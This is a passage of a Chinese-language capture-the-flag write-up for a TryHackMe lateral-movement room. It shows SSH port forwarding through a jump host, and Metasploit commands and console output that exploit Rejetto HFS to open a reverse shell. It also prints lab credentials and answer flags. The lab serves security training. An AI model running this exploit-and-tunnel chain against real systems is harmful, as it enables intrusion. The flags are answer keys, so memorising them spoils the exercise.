对于 SRVPORT 和 LPORT，让我们随意选择两个随机端口。为了演示目的，我们将设置 `SRVPORT=6666` 和 `LPORT=7878` ，但请确保使用不同的端口，因为实验室与其他学生共享，如果两个人选择相同的端口，尝试转发它们时会出现端口已在 THMJMP2 上使用的错误。

要将这些端口从攻击者的机器转发到 THMJMP2，我们将使用本地端口转发，通过将 `-L *:6666:127.0.0.1:6666` 和 `-L *:7878:127.0.0.1:7878` 添加到我们的 SSH 命令中。这将在 THMJMP2 上绑定这两个端口，并隧道传输任何连接回我们的攻击者机器。

将整个命令放在一起，我们将得到以下内容：

```shell title="THMJMP2: Command Prompt"
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

:::tip

如果你正在使用 AttackBox 并且之前加入过其他网络房间，请确保将分配给面向 lateralmovementandpivoting 网络的隧道接口的 IP 地址选为你的 ATTACKER_IP，否则你的反向 Shell / 连接可能无法正常工作。为了方便起见，连接到这个网络的接口名为 lateralmovement，所以你可以通过运行 ip add show lateralmovement 来获取正确的 IP 地址。

<div style={{textAlign:'center'}}>


</div>

:::

一旦所有端口转发就位，我们可以启动 Metasploit 并配置漏洞利用，使所需端口与我们通过 THMJMP2 转发的端口匹配：

```shell title="AttackBox"
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

这里有很多内容需要解释：

- LHOST 参数通常有两个作用：用作攻击者机器上绑定反向 Shell 的监听器的 IP，以接收反向 Shell；还嵌入到有效载荷中，让受害者知道在触发漏洞利用时要连接回哪里。在我们的具体情况中，因为 THMDC 无法连接到我们，我们需要强制有效载荷连接回 THMJMP2，但我们需要监听器绑定到攻击者机器上的 127.0.0.1。为此，Metasploit 提供了一个可选参数 `ReverseListenerBindAddress` ，可以用来单独指定攻击者机器上监听器的绑定地址，与有效载荷将连接回的地址分开。在我们的示例中，我们希望反向 Shell 监听器绑定到攻击者机器上的 `127.0.0.1` ，而有效载荷连接回 THMJMP2（因为它将通过 SSH 隧道转发到攻击者机器）。
- 我们的漏洞利用还必须运行一个 Web 服务器，用于托管并将最终的有效载荷发送回受感染的服务器。我们使用 SRVHOST 来指示监听地址，在本例中是 127.0.0.1，以便攻击者机器将 Web 服务器绑定到本地主机。虽然这可能有些违直觉，因为没有外部主机能够指向攻击者机器的本地主机，但 SSH 隧道会负责将在 THMJMP2 上接收的任何连接转发回攻击者的机器。
- RHOSTS 设置为指向 127.0.0.1，因为 SSH 隧道将通过与 THMJMP2 建立的 SSH 隧道将请求转发到 THMDC。RPORT 设置为 8888，因为发送到攻击者机器上该端口的任何连接都将转发到 THMDC 上的端口 80。

启动漏洞利用后，你将在攻击者的机器上收到一个 Shell。你会在 `C:\hfs\flag.txt` 中找到一个标志。

:::info Answer the questions below

在 THMIIS 上的 t1_thomas.moore 桌面上执行 “flag.exe” 获得的标志是什么？

<details>

<summary> 具体操作步骤 </summary>

按照上方的教程，使用 socat 转发 3389 端口之后，直接连接即可

<div style={{textAlign:'center'}}>



</div>

</details>

```plaintext
THM{SIGHT_BEYOND_SIGHT}
```

在 THMDC 上使用 Rejetto HFS 漏洞获取的标志是什么？

<details>

<summary> 具体操作步骤 </summary>

首先，在 `http://distributor.za.tryhackme.com/creds` 申请一份凭据：

```plaintext
Your credentials have been generated: Username: jennifer.wright Password: Acknowledge1998
```

然后通过 SSH 登录到 THMJMP2，执行

```shell
za\jennifer.wright@THMJMP2 C:\Users\jennifer.wright>ssh tunneluser@10.50.17.216 -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
The authenticity of host '10.50.17.216 (10.50.17.216)' can't be established.
ED25519 key fingerprint is SHA256:P8usLI7wNjuQwvamuEh7ZKOj2R1o4E07OJ3rBBYrbLs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.50.17.216' (ED25519) to the list of known hosts.
tunneluser@10.50.17.216's password:
```

启动 msfconsole，开始利用 payload

```shell
[msf](Jobs:0 Agents:0) >> use rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

[*] Using exploit/windows/http/rejetto_hfs_exec
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set lhost thmjmp2.za.tryhackme.com
lhost => thmjmp2.za.tryhackme.com
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set lport 7878
lport => 7878
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set srvhost 127.0.0.1
srvhost => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set srvport 6666
srvport => 6666
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set rhosts 127.0.0.1
rhosts => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> set rport 8888
rport => 8888
[msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> exploit

[*] Started reverse TCP handler on 127.0.0.1:7878
[*] Using URL: http://thmjmp2.za.tryhackme.com:6666/KrXUh597WS
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /KrXUh597WS
[!] Tried to delete %TEMP%\WHfTriZdQ.vbs, unknown result
[*] Command shell session 1 opened (127.0.0.1:7878 -> 127.0.0.1:53466) at 2023-12-12 12:53:59 +0800
[*] Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\hfs>
C:\hfs>type flag.txt
type flag.txt
THM{FORWARDING_IT_ALL}
```

成功得到目标靶机的 shell

</details>

```shell
THM{FORWARDING_IT_ALL}
```

:::

## Conclusion

在这个房间里，我们讨论了攻击者在获得一组有效凭据后如何在网络中移动的许多方式。从攻击者的角度来看，拥有尽可能多的不同技术来执行横向移动总是有帮助的，因为不同的网络可能会有各种限制，可能会阻止或不阻止某些方法。

虽然我们介绍了最常用的技术，但请记住，任何允许你从一台主机移动到另一台主机的方法都属于横向移动。根据每个网络的具体情况，其他路径可能也是可行的。

如果你对更多工具和技术感兴趣，以下资源可供参考：

- [sshuttle - Github](https://github.com/sshuttle/sshuttle)
- [RPIVOT - Github](https://github.com/klsecservices/rpivot)
- [Chisel - Github](https://github.com/jpillora/chisel)
- [Hijacking connections without injections: a ShadowMoving approach to the art of pivoting](https://adepts.of0x.cc/shadowmove-hijack-socket/)
